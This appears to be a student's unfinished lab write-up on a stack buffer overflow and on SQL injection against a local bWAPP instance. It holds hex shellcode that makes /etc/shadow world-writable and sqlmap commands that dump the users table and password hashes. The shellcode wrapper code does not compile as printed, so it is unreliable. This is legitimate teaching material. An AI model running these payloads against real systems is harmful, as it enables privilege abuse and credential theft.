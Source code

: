 
<h1>Lab #1,22110035, Nguyen Gia Huy, Information Security_Nhom03FIE</h1>
# Task 1: Software buffer overflow attack
 
Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode in C. This shellcode executes chmod 777 /etc/shadow without having to sudo to escalate privilege
```
#include <stdio.h>
#include <string.h>

unsigned char code[] = \
"\x89\xc3\x31\xd8\x50\xbe\x3e\x1f"
"\x3a\x56\x81\xc6\x23\x45\x35\x21"
"\x89\x74\x24\xfc\xc7\x44\x24\xf8"
"\x2f\x2f\x73\x68\xc7\x44\x24\xf4"
"\x2f\x65\x74\x63\x83\xec\x0c\x89"
"\xe3\x66\x68\xff\x01\x66\x59\xb0"
"\x0f\xcd\x80";

int
void main() {
    int (*ret)() = (int(*)())code;
}
```
**Question 1**:
- Compile both C programs and shellcode to executable code. 
- Conduct the attack so that when C executable code runs, shellcode willc also be triggered. 
  You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
**Answer 1**: Must conform to below structure:
***Preparation***
***Step 1: Run the command below to setup the environment***


![image](https://github.com/user-attachments/assets/9d60f525-a514-454a-bdd1-52dc5775aafa)


***Step 2***


I will create a vulnerable.c file and insert this code into it


```
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```


And create shellcode.c and insert this code:
```
#include <stdio.h>
#include <string.h>

unsigned char code[] = \
"\x89\xc3\x31\xd8\x50\xbe\x3e\x1f"
"\x3a\x56\x81\xc6\x23\x45\x35\x21"
"\x89\x74\x24\xfc\xc7\x44\x24\xf8"
"\x2f\x2f\x73\x68\xc7\x44\x24\xf4"
"\x2f\x65\x74\x63\x83\xec\x0c\x89"
"\xe3\x66\x68\xff\x01\x66\x59\xb0"
"\x0f\xcd\x80";

int
void main() {
    int (*ret)() = (int(*)())code;
}
```


***Step 3: Inspect stack frame of vulnerable.c***


![image](https://github.com/user-attachments/assets/7456edf8-8706-43d8-ab49-0f8fc6372dfc)


***Idea***


***Step2: Compile code***



  
1. Idea
`StackFrame` của chương trình 

``` 
    code block (optional)
```

output screenshot (optional)

**Conclusion**: comment text about the screenshot or simply answered text for the question

# Task 2: Attack on the database of bWapp 
- Install bWapp (refer to quang-ute/Security-labs/Web-security). 
- Install sqlmap.
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:


***Step1***


First we login to the web with username: bee, password: bug


![image](https://github.com/user-attachments/assets/6f445219-db7b-42fe-ba05-df6fd2b57b07)


***Step2***
After that, we choose SQL Injection (get/select) option and click Hack button
![image](https://github.com/user-attachments/assets/68ba1787-ad5d-4cb2-bdb7-ea59a73df331)


***Step3***


We will be redirected to the page http://localhost:8025/sqli_2.php
We collect the cookie of the webpage
![image](https://github.com/user-attachments/assets/24420808-15de-4de0-9a18-28aef6a30bd4)
We can observe that the cookie = qsfi47oc645khe9eimnnr9kcm5; security_level=0


***Step4***


We will start using SQLMap to find the existing databases of the website.


Run the command: python sqlmap.py -u "http://localhost:8025/sqli_2.php?movie=1" --dbs --cookie="qsfi47oc645khe9eimnnr9kcm5; security_level=0"


Explain the command: This command runs SQLMap to test the URL http://localhost:8025/sqli_2.php?movie=1 for SQL injection vulnerabilities. The --dbs option 
instructs SQLMap to enumerate and display the databases available on the target server. The --cookie option provides session cookies for authentication, allowing SQLMap to interact with the web application as an authenticated user.


Result:


![image](https://github.com/user-attachments/assets/5e009099-2b49-494e-8524-0ef11f38168d)


We can see that there are 4 available database: bWAPP, information_schema, mysql, performance_schema

**Question 2**: Use sqlmap to get tables, users information


**Answer 2**:


***Step1***


To view user information, we need to know the information of the tables in each database


So I will try to see the table information in each database, starting with the first bWAPP database


Run the command: python sqlmap.py -u "http://localhost:8025/sqli_2.php?movie=1" -D bWAPP --tables --cookie="PHPSESSID=qsfi47oc645khe9eimnnr9kcm5;security_level=0"


Explain command: This command executes SQLMap to test the URL http://localhost:8025/sqli_2.php?movie=1 for SQL injection vulnerabilities, specifically targeting the database bWAPP. The -D bWAPP option specifies that SQLMap should focus on this particular database. The --tables option instructs SQLMap to enumerate and display the tables within the specified database. The --cookie option provides session cookies for authentication, allowing SQLMap to interact with the web application as an authenticated user.


Result: 

![image](https://github.com/user-attachments/assets/15be522e-ed1f-4317-9156-281f87c6a74c)


We can observer that there are 5 table in the bWAPP database. 


***Step2***


Based on the table names, we can easily guess the user information stored in the users table in the bWAPP database


So we will read the contents of the Users table


Run the command: python sqlmap.py -u "http://localhost:8025/sqli_2.php?movie=1" -D bWAPP -T users --dump --cookie="PHPSESSID=qsfi47oc645khe9eimnnr9kcm5;security_level=0"


Explain command: This command runs SQLMap to test the URL http://localhost:8025/sqli_2.php?movie=1 for SQL injection vulnerabilities, focusing specifically on the database bWAPP and the users table. The -D bWAPP option specifies the target database, while the -T users option indicates that SQLMap should operate on the users table. The --dump option instructs SQLMap to extract and display all the data from the specified table. The --cookie option provides session cookies for authentication, allowing SQLMap to interact with the web application as an authenticated user.


Result:

![image](https://github.com/user-attachments/assets/29db088a-65c2-4383-9c18-cd040a2d820a)


Based on the image above, we can see the user information and hashed passwords

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:
